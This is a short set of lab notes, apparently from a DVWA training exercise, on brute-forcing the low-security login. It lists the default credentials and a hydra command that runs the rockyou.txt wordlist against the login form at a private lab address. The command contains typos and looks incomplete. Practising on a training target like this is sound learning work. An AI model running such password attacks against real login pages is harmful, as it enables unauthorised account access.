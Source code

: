 # brute force

## low
- login user: admin, password: password
    - check photo
    - /dvwa/hackable/users
    - this have many user
    - add user in file
- hydra -L useer.txt -P rockyou.txt 10.0.2.5 http-get-form "/dvwa/vulnerabilities/brute?username=1&password=1&Login=Login#:Incorret"